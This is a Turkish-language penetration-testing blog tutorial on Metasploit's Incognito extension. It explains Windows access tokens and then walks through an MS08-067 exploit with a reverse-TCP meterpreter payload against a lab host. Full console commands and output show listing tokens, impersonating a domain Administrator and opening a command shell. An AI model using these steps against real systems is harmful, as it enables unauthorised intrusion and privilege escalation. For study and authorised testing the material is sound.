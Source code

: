 ```yaml
---
draft: false

title:  'MSF Incognito'
date: '2017-06-05T13:24:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Bir sisteme giriş yaptığınızda, sistemde bulunan kullanıcılara ait\_token\_adı verilen izin ve yetkilendirme kuralları bulunur. Bu kurallar, web uygulamalarında kullanılan\_cookie\_denilen çerez dosyalarına benzer. Kullanıcı ağdaki bir servise (örn. Net drive) ilk bağlandığında kullanıcı adı ve parolasıyla oturum açar. Oturum açıldığında sistem bu kullanıcıya bir\_token\_tanımlar. Artık bilgisayar kapanana kadar tekrar tekrar parola girmeden, sistemde bulunan servisi kullanma imkanı olacaktır." 
 
url:  /tr/msf-incognito/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Incognito Nedir?



Bir sisteme giriş yaptığınızda, sistemde bulunan kullanıcılara ait **token** adı verilen izin ve yetkilendirme kuralları bulunur. Bu kurallar, web uygulamalarında kullanılan **cookie** denilen çerez dosyalarına benzer. Kullanıcı ağdaki bir servise (örn. Net drive) ilk bağlandığında kullanıcı adı ve parolasıyla oturum açar. Oturum açıldığında sistem bu kullanıcıya bir **token** tanımlar. Artık bilgisayar kapanana kadar tekrar tekrar parola girmeden, sistemde bulunan servisi kullanma imkanı olacaktır.



Pentest işlemleri esnasında bu **token** ve yetkilerini ele geçirerek kullanmaya **incognito** işlemi denilmektedir. **token** izinleri, ikiye ayrılmaktadır. Bunlara **delegate** ve **impersonate** adı verilmektedir. Okuyucunun kafasının karışmaması için biz de İngilizce şekillerini kullanmaya devam edeceğiz.



Delegate: token izinleri beyan ediciler olarak kullanılır. Etkileşimli oturumlarda, örneğin uzak masaüstü bağlantıları tarzında işlemler için kullanılırlar.



Impersonate: token izinleri kişisel olarak üretilmiş izinlerdir ve etkileşim olmayan servisler için kullanılırlar. Örneğin bir ağ klasörüne bağlanmak gibi.


<!-- wp:quote -->
<blockquote class="wp-block-quote">
Dosya sunucuları bu token izinleri için çok zengin bir bilgi kaynağıdırlar.
</blockquote>
<!-- /wp:quote -->


Hedef sistemde bir token ele geçirdiğinizde, artık bir servise bağlanmak için o kullanıcının parolasını bilmeye gerek kalmaz çünkü yetkilendirme önceden yapılmıştır ve yetki kontrolü **token** iznine güvenilerek arka planda yapılır. Bir sistemde meterpreter shell açıldığında kullanılabilir durumda olan **token** listesi kontrol edilmelidir.



## Meterpreter Oturum Açalım



Aşağıdaki örnekte, öncelikle `ms08_067_netapi` modülü kullanılarak gerekli ayarlar yapılmakta ve bir oturum açılmaktadır.


```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit**(**ms08_067_netapi**)** > set RHOST 10.211.55.140
RHOST **=>** 10.211.55.140
msf exploit**(**ms08_067_netapi**)** > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
msf exploit**(**ms08_067_netapi**)** > set LHOST 10.211.55.162
LHOST **=>** 10.211.55.162
msf exploit**(**ms08_067_netapi**)** > set LANG english
LANG **=>** english
msf exploit**(**ms08_067_netapi**)** > show targets

Exploit targets:

   Id  Name                                               
   --  ----                                               
   0   Automatic Targeting                                
   1   Windows 2000 Universal                             
   2   Windows XP SP0/SP1 Universal                       
   3   Windows XP SP2 English **(**NX**)**                        
   4   Windows XP SP3 English **(**NX**)**                        
   5   Windows 2003 SP0 Universal                         
   6   Windows 2003 SP1 English **(**NO NX**)**                   
   7   Windows 2003 SP1 English **(**NX**)**                      
   8   Windows 2003 SP2 English **(**NO NX**)**                   
   9   Windows 2003 SP2 English **(**NX**)**                      
   10  Windows XP SP2 Arabic **(**NX**)**                         
   11  Windows XP SP2 Chinese - Traditional / Taiwan **(**NX**)** 


msf exploit**(**ms08_067_netapi**)** > set TARGET 8
target **=>** 8
msf exploit**(**ms08_067_netapi**)** > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager **for **over-sized stage...**(**191 bytes**)**
> Sending stage **(**2650 bytes**)**
> Sleeping before handling stage...
> Uploading DLL **(**75787 bytes**)**...
> Upload completed.
> Meterpreter session 1 opened **(**10.211.55.162:4444 -> 10.211.55.140:1028**)**

meterpreter >
```



## Incognito Modülünü Yükleyelim



Meterpreter oturumu açmayı başardıktan sonra `incognito` modülünü kullanmamız gerekiyor. `Incognito` modülü, meterpreter e ait bir modül olduğundan `use incognito` komutuyla modülü aktif hale getiriyoruz. Ardından `help` komutunu verdiğinizde, `incognito` modülüne özel komutları görebiliriz.


```bash
meterpreter > use incognito
Loading extension incognito...success.
meterpreter > help

Incognito Commands
**==================**

    Command              Description                                             
    -------              -----------                                             
    add_group_user       Attempt to add a user to a global group with all tokens 
    add_localgroup_user  Attempt to add a user to a local group with all tokens  
    add_user             Attempt to add a user with all tokens                   
    impersonate_token    Impersonate specified token                             
    list_tokens          List tokens available under current user context        
    snarf_hashes         Snarf challenge/response hashes **for **every token         

meterpreter >
```



## Sistemdeki token Listesi



Meterpreter içerisinde `incognito` modülünü yükledikten sonra `list_tokens` komutuyla listeyi kontrol edelim. Listede bulunan bir takım **token** izinlerine Administrator kullanıcılarının bile erişimi olmayabilir. Bizim en fazla ilgileneceğimiz tür **SYSTEM** token izinleridir.


```bash
meterpreter > list_tokens -u

Delegation Tokens Available
**========================================**
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY ETWORK SERVICE
NT AUTHORITY\SYSTEM
SNEAKS.IN\Administrator

Impersonation Tokens Available
**========================================**
NT AUTHORITY\ANONYMOUS LOGON

meterpreter >
```



Yukarıda listede bulunan `SNEAKS.IN\Administrator` isimli token fark ettiyseniz **Delegation** listesinde bulunmaktadır. Bunu **Impersonation** haline getirerek kişiselleştirmeniz gerekmektedir. Bunun için `impersonate_token` komutunu kullanacağız. Komutu girerken iki adet `\\` işareti kullanmaya dikkat edin. Listede `\` tek olsa da komutu girerken iki adet girilmelidir.


```bash
meterpreter > impersonate_token SNEAKS.IN\\Administrator
**[**+] Delegation token available
**[**+] Successfully impersonated user SNEAKS.IN\Administrator
meterpreter > getuid
Server username: SNEAKS.IN\Administrator
meterpreter >
```



Komut başarıyla sonlandığında `getuid` komutuyla kullanıcı kimliğini kontrol ettiğimizde `Server username: SNEAKS.IN\Administrator` sonucu aldık.



## Yeni Kullacı ile Shell Açma



Meterpreter içerisinde `execute -f cmd.exe -i -t` komutu ile komut satırında oturum açalım ve `whoami` komutuyla Windows kullanıcı kimliğine bakalım. Burada `-i` seçeneği **interact*** yani etkileşimli, `-t` seçeneği ise yeni ele geçirdiğimiz `SNEAKS.IN\Administrator` token iznini kullanmayı ifade eder.


```bash
meterpreter > shell
Process 2804 created.
Channel 1 created.
Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
whoami
SNEAKS.IN\administrator

C:\WINDOWS\system32>
```



Kişisel bilgisayarlarda karşılaşabileceğiniz **token** izinlerine, sunucu bilgisayarlarda daha çok rast gelebilirsiniz. Sunucularda bir çok servis etkileşimli ve çok kullanıcılı olarak çalıştığından liste daha uzun olacaktır. Bunların arasından en çok yetkili **token** izinleri denemelisiniz.
